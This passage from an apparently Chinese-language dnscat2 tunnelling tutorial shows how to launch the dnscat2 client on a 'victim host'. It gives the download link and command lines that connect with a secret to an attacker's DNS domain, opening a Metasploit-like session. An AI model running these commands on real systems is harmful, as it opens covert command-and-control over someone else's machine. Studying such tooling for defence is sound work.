 [![](assets/1708095858-c28c10e60428cc6fa2f0df13aa97d5cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203105-351e2a74-e8e5-1.png)

4、配置客户端，二进制文件下载地址：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/) ，客户端（受害主机）启动 dnscat2 服务

```plain
dnscat2-v0.07-client-win32.exe --secret=[密钥] [NS 记录值] --delay 5000
dnscat2-v0.07-client-win32.exe --secret=000000 log.xxx.xxx --delay 5000
```

[![](assets/1708095858-ca3d81f6d57bcaff7e9ea2f2c4293453.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203114-3a9e0636-e8e5-1.png)

5、查看服务端，返回一个 session 类似 msf 一般

[![](assets/1708095858-4c74756b550e88fb9da48a2f91a43cc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203121-3ed8ca1a-e8e5-1.png)
